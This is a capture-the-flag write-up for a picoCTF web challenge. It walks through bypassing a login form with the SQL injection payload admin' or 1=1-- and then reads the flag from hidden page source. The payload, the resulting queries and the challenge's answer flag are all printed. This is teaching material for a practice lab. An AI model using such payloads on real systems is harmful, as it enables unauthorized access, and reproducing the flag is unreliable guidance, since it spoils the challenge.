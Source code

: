 # **Challenge:** SQLiLite

### **Category:** Web Exploitation
### **Point Value:** 300
### **Author:** Mubarak Mikail
<br>

## **Description:**
Can you login to this website?

# **Write-Up:**
Like other login-challenges, let's try with admin/admin. We get:
```
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'

Login failed.
```
It's exactly SQL Injection. Try the common SQL payload:
```sql
admin' or 1=1--
```
That means:
```sql
SELECT * FROM users WHERE name='admin' or 1=1--' AND password='admin'
```
We get:
```
username: admin' or 1=1--
password: admin
SQL query: SELECT * FROM users WHERE name='admin' or 1=1--' AND password='admin'

Logged in! But can you see the flag, it is in plainsight.
```
View page source and get the flag.
```html
<pre>username: admin&#039; or 1=1--
password: admin
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; or 1=1--&#039; AND password=&#039;admin&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}</p>
```
# **FLAG:** 
```
picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}
```
